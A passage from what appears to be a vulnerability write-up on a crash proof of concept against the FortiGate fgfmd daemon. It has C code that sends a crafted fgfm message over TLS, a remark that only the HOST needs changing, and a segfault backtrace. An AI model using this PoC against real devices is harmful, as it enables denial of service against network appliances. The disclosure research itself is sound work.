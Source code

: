 ```c
    
    if(SSL_accept(ssl)<=0)
      ERR_print_errors_fp(stderr);
    else{
      len_be=htonl(strlen(payload)+1+8);
      SSL_write(ssl, fgfm_magic, 4);
      SSL_write(ssl, &len_be, 4);
      SSL_write(ssl, payload, strlen(payload)+1);
    }
    SSL_shutdown(ssl);
    SSL_free(ssl);
    close(sock);
    SSL_CTX_free(ctx);
  }
```

Just change the HOST and provide a key.pem/cert.pem. The hardest part about
developing a crash POC was realizing the TCP client is acting as the TLS 
server. The protocol itself is just a magic number, size field, and 
text-based body.

```text
  <23066> firmware FortiGate-VM64 v7.2.4,build1396b1396,230131 (GA.F) 
  (Release)
  <23066> application fgfmsd
  <23066> *** signal 11 (Segmentation fault) received ***
  <23066> Register dump:
  <23066> RAX: 00007f652c3d2040   RBX: 00007f652c8f7844
  <23066> RCX: 00007ffd3fe86008   RDX: 00007f6531e7afc0
  <23066> R08: 00007f652c3cf010   R09: 0000000000000000
  <23066> R10: 0000000000000022   R11: 0000000000000246
  <23066> R12: 00007ffd3fe83780   R13: 0000000000042069
  <23066> R14: 000000000000000b   R15: 0000000000000303
  <23066> RSI: 00007ffd3fe84138   RDI: 00007ffd3fe86000
  <23066> RBP: 00007ffd3fe83fe0   RSP: 00007ffd3fe83690
  <23066> RIP: 00007f6531d65c6c   EFLAGS: 0000000000010212
  <23066> CS:  0033   FS: 0000   GS: 0000
  <23066> Trap: 000000000000000e   Error: 0000000000000004
  <23066> OldMask: 0000000000000000
  <23066> CR2: 00007ffd3fe86000
  <23066> stack: 0x7ffd3fe83690 - 0x7ffd3fe854d0 
  <23066> Backtrace:
  <23066> [0x7f6531d65c6c] => /usr/lib/x86_64-linux-gnu/libc.so.6  liboffset 
  00064c6c
  <23066> [0x7f6531d6805d] => /usr/lib/x86_64-linux-gnu/libc.so.6  liboffset 
  0006705d
  <23066> [0x7f6531d7b826] => /usr/lib/x86_64-linux-gnu/libc.so.6  liboffset 
  0007a826
  <23066> [0x7f6531d54d42] => /usr/lib/x86_64-linux-gnu/libc.so.6 
  (__snprintf+0x00000092) liboffset 00053d42
  <23066> [0x00acc6aa] => /bin/fgfmd  
  <23066> [0x00acd30c] => /bin/fgfmd  
  <23066> [0x00acdcef] => /bin/fgfmd  
  <23066> [0x00aee12a] => /bin/fgfmd  
  <23066> [0x00ae8674] => /bin/fgfmd  
  <23066> [0x00ad60ba] => /bin/fgfmd  
  <23066> [0x00ae1d11] => /bin/fgfmd  
  <23066> [0x00449eaf] => /bin/fgfmd  
  <23066> [0x004531da] => /bin/fgfmd  
  <23066> [0x0044fd9c] => /bin/fgfmd  
  <23066> [0x00452428] => /bin/fgfmd  
  <23066> [0x00452d71] => /bin/fgfmd  
  <23066> [0x7f6531d24deb] => /usr/lib/x86_64-linux-gnu/libc.so.6 
  (__libc_start_main+0x000000eb) liboffset 00023deb
```